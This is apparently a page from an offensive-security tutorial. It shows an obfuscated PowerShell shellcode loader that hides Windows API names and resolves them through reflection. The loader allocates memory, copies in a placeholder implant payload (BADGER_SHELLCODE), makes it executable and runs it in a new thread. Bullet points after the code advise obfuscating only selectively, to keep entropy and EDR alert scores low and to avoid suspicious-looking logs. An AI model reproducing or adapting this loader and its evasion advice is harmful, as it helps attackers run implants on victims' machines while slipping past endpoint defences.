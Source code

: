 ```powershell
    }
    return [System.Text.Encoding]::ASCII.GetString($aisN)
}
function Get-PA ($vmod, $vproc) {
    $a = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\\\')[-1].Equals('System.dll') }).GetType((Get-Robf $KooG5))
    return ($a.GetMethod((Get-Robf $io9iH), [reflection.bindingflags] "Public,Static", $null, [System.Reflection.CallingConventions]::Any, @((New-Object System.Runtime.InteropServices.HandleRef).GetType(), [string]), $null)).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($a.GetMethod((Get-Robf $Qui5i))).Invoke($null, @($vmod)))), $vproc))
}
function Get-TDef {
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
        [Parameter(Position = 1)] [Type] $var_return_type = [Void]
    )
    $vtdef = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName((Get-Robf $Ait1m))), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule((Get-Robf  $ahv3I), $false).DefineType((Get-Robf $Moo5y), (Get-Robf $ooR5o), [System.MulticastDelegate])
    $vtdef.DefineConstructor((Get-Robf $Reib3), [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    $vtdef.DefineMethod((Get-Robf $ii5Ie), (Get-Robf $Thah8), $var_return_type, $var_parameters).SetImplementationFlags((Get-Robf $Reo5o))
    return $vtdef.CreateType()
}

[Byte[]]$vopcode = @(BADGER_SHELLCODE)

$vbuf = ([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $AD0Pi)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))).Invoke([IntPtr]::Zero, $vopcode.Length, 0x3000, 0x04)
[System.Runtime.InteropServices.Marshal]::Copy($vopcode, 0x0, $vbuf, $vopcode.length)
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $ahb3O)), (Get-TDef @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))).Invoke($vbuf, $vopcode.Length, 0x20, [ref](0)) | Out-Null
([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((Get-PA (Get-Robf $xee2N) (Get-Robf $yhe4c)), (Get-TDef @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr].MakeByRefType()) ([UInt32])))).Invoke(0, 0, $vbuf, [IntPtr]0, 0, [ref](0)) | Out-Null
```


	- You may notice that some cmdlets and functions are kept in their original state... why is that?
	- Depending on your objectives, you may want to create an application that can still confuse reverse engineers after detection but may not look immediately suspicious.
	- If a malware developer were to obfuscate all cmdlets and functions, it would raise the entropy in both interpreted and compiled languages resulting in higher EDR alert scores.
	- It could also lead to an interpreted snippet appearing suspicious in logs if it is seemingly random or visibly heavily obfuscated.

